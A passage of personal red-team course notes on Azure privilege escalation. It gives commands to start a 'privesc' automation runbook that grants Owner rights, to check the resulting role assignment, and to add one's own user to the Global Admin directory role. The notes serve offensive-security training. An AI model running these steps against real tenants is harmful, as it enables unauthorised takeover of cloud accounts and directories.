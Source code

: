 Invoke the runbook:
```powershell
az automation runbook start --automation-account-name “...” --resource-group “...” --name “privesc” 
```


After some time, check the role assignment of the modified user to see owner privilege added:
```powershell
az role assignment list --assigne “objID of the user” --all
```


> [NOTE] *With Role Management Write, u can write your user to any group including GA*

> *but for that... To authenticate on behalf of applications (SP) u need to generate a certificate in order to log using AzureAD utility*

With this access u can simply add yourself as Global Admin with this command:
```powershell
Get-AzureADDirectoryRole
Add-AzureADDirectoryRoleMember -ObjectID <objID of GA> -RefObjectId <objID of your user>
```


> This is my notes of the *Azure* part of the *Hybrid Multi-Cloud Red Team Specialist* [CHMRTS] from [CWL](https://cyberwarfare.live). Check their content.

